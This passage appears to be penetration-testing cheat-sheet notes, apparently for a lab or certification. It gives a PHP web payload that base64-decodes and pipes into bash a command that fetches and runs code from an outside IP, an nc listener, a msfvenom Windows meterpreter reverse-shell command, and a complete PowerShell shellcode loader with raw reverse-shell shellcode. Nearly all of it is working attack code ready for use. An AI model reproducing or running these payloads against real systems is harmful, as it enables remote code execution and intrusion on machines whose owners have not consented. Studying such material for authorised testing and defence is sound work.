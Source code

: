 Copy the generated code into our exploit

    payload = "<?php echo shell_exec('echo cHl0aG9uIC1jICJmcm9tIHJlcXVlc3RzIGltcG9ydCBnZXQ7aW1wb3J0IG9zO29zLnN5c3RlbShnZXQoJ2h0dHA6Ly8xOTIuMTY4LjExOS4xNTI6ODAvRHJkclhhaFknKS50ZXh0KSIg|base64 -d|/bin/bash') ?>"

Listen locally on port 4444:	

    # nc -nlvp 4444

Run the exploit to invoke the payload and have the target connect back to you on port 4444

If you uploaded the payload, call it with curl or alternative

## Scripting Payloads

### Windows Reverse Shell

#### Generating the Payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.152 LPORT=4444 -f powershell
```

#### Full powershell script
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0x98,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
